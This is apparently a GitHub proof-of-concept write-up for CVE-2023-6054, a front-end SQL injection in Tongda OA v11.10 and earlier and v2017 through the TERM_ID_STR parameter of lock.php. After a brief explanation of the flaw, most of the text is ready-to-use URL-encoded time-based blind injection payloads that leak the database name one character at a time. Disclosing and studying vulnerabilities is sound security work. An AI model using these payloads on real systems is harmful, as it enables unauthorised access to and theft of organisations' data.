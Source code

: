 # CVE-2023-6054
Tongda OA has a front-end SQL injection vulnerability

version:v11.10 and below versions and v2017 version

Route: general/wiki/cp/manage/lock.php

There is an injected parameter: $TERM_ID_STR

The code here is very simple. When $TYPE==LOCK or UNLOCK, the parameter $TERM_ID_STR is directly connected to the SQL statement to cause SQL injection.
![image](https://github.com/TinkAnet/cve/assets/118334129/ccb82304-9491-4109-b25a-e67ef2d0c782)


2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.
POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)
```
![image](https://github.com/TinkAnet/cve/assets/118334129/3d63ff4e-e1e8-42dc-a2e4-cb9281ec66ff)

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time

```1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1```

![image](https://github.com/TinkAnet/cve/assets/118334129/d6d8ab14-ca96-4250-b285-347289be9295)

The third digit is the character _
```1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1```

![image](https://github.com/TinkAnet/cve/assets/118334129/e217d24a-ff2a-4720-80b6-75a9f8107ffb)

The fourth digit is the character o

```1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1```
![image](https://github.com/TinkAnet/cve/assets/118334129/b84f40ae-8d23-4fce-8778-404924076544)

The fifth digit is the character a

```1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1```
![image](https://github.com/TinkAnet/cve/assets/118334129/499745c3-077a-4709-86ea-7b8c9e8968f5)

